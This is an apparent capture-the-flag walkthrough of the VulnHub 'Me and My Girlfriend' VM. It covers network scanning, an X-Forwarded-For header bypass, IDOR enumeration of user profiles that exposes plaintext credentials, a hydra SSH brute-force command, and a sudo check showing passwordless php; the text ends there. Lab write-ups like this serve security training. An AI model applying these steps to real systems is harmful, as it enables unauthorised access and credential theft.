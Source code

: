 # Me and My Grilfriend

### 1.Get VM IP

```bash
root@kali: rp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.134	00:0c:29:cf:c6:1c	VMware, Inc.
192.168.127.254	00:50:56:f5:f5:14	VMware, Inc.
```

The ip address is `192.168.127.134`, let's enumerate it

### 2.Enumeration

```bash
root@kali: nmap -p- -sT -sV -sC -v -oN nmap.out 192.168.127.134
Nmap scan report for www.convert.me (192.168.127.134)
Host is up (0.0010s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:e1:56:58:46:04:33:56:3d:c3:4b:a7:93:ee:23:16 (DSA)
|   2048 3b:26:4d:e4:a0:3b:f8:75:d9:6e:15:55:82:8c:71:97 (RSA)
|   256 8f:48:97:9b:55:11:5b:f1:6c:1d:b3:4a:bc:36:bd:b0 (ECDSA)
|_  256 d0:c3:02:a1:c4:c2:a8:ac:3b:84:ae:8f:e5:79:66:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.7 (Ubuntu)
MAC Address: 00:0C:29:CF:C6:1C (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting the web page it says :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/df7752cb-c77e-4b12-98bd-a3473bcb422d)

and the page source says :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/172e804f-93fe-4a5e-9658-7c3262a6ffb6)

config the browser to send traffic to burp and config burp to add new header to each request, `X-Forwarded-For: 127.0.0.1` :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/9740cf2b-7016-4a7b-adfd-5985aeeb3606)

after that you can see the actual page of the website:

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/c65f2b46-18d2-4350-ad30-fa1535fe4ca9)

i tried SQLi on register and login page but nothing happened, then i created a user and logged in to the site :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/df73b1e1-267b-42bf-bc35-1baa7ca64f7f)

after seeing the traffic in burp and navigating to profile menue i saw the request :

```text
http://192.168.127.134/index.php?page=profile&user_id=12
```

i change the `user_id` parameter to `1` and it showed another user profile :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/0fa3c04e-7b86-4e6c-9614-6bfa403881c8)


send the request to intruder and try number 1 to 50 for example, and also add `X-Forwarded-For: 127.0.0.1` header to the request

then you will see that multiple user and passwords are shown :

- users

```text
abdikasepak
alice
sedihaingmah
sundatea
aingmaung
eweuhtandingan
```

- passwords

```text
dorrrrr
4lic3
cedihhihihi
indONEsia
qwerty!!!
skuyatuh
```


### 3.Gaining Shell

Save these two lists and try to brute force the ssh service :


```bash
hydra -L users.txt   -P passwords.txt 192.168.127.134 ssh -v -t 10 
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/cc9f0f26-89ad-4653-b22c-4b3ec4a45d5b)


now login to system with `alice : 4lic3` :

```bash
root@kali: ssh alice@192.168.127.134                                                                                                               
alice@192.168.127.134's password: 
Last login: Sun Apr 28 16:50:29 2024 from 192.168.127.128
alice@gfriEND:~$ id
uid=1000(alice) gid=1001(alice) groups=1001(alice)
```

### 4.Privilege Escalation

Check sudo permissions on the system :

```bash
alice@gfriEND:~$ sudo -l
Matching Defaults entries for alice on gfriEND:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on gfriEND:
    (root) NOPASSWD: /usr/bin/php
```





